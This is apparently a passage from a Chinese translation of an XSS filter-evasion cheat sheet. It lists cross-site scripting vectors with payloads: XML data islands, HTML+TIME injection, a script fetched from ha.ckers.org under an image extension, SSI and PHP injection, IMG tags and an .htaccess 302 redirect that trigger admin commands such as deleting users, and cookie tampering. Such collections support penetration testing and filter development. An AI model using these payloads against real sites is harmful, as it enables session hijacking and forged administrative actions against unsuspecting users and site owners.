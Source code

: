 ----
##使用XML数据岛生成含有javascript代码的当前域xml文件##
它是相同的同上面仅仅代替XML文件为当前域文件。你可以看到结果在下面。

    <XML SRC="xsstest.xml" ID=I></XML>
    <SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

----
##HTML+TIME 在XML中##
它展示了 Grey Magic 曾将是怎样攻击 Hotmail 和 Yahoo!的。它是仅仅可以工作在ie和使用了ie渲染引擎的Netscape 8.1。并且这段代码需要放在html与body标签之间。
```
    <HTML><BODY>
    <?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
    <?import namespace="t" implementation="#default#time2">
    <t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
    </BODY></HTML>
```
-----
##简单的修改字符去绕过过滤器对 ".js"的过滤##
在xss向量你可以重命名你的javascript文件为一个图片
```
    <SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
```
----
##SSI (服务器端包含)##
这需要SSI被安装在服务器端去使用这个xss向量。但可能我并不需要提及这点，因为如果你可以运行命令在服务器端，那么毫无疑问会有更加严重的问题存在。

    <!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->

-----
##PHP##
需要php被安装在服务器端去使用这个xss向量。同样的，如果你可以运行任何远程脚本，那么将会有更加严重的问题。

    <? echo('<SCR)';
    echo('IPT>alert("XSS")</SCRIPT>'); ?>

----
##嵌入命令的IMG##
它是用于那些需要用户认证后才可以访问的页面，并且在访问这些页面的过程中会执行某些命令。因此它将可以创建或删除用户（如果访问者是管理员），或是寄送某些凭证等等，虽然它是较少被使用但是是非常有用的。

    <IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

-----
##嵌入命令的IMG II##
这是更加的可怕，因为并没有特别的标识符去鉴别它是否可疑。除非不允许引入第三方域的图片。这个向量是使用一个 302 or 304（或其他可行方案）去重定向一个图片地址为带有某些命令的地址。因此一个正常的图片标签代码&lt;IMG SRC="a.jpg">可以是带有命令的xss向量。但是用户看到的仅仅是正常的图片链接地址。下面是一个.htaccess（apche下）配置文件去完成这个向量。（感谢Timo为这部分。）

    Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser

----
##Cookie篡改##
这是公认的不着边际，但是我已经发下一个例子是用 &lt;META 去覆盖cookie。另一个例子是有些网站使用cookie中的某些数据去呈现在当前访问者的网页中为仅仅他自己而不是从远程数据库中获取。当这两个清静联系在一起的时候，你可以通过修改cookie让javascript输入到用户页面中。（你可以借此让用户退出，改变用户的状态，甚至让用户以你的身份登录）
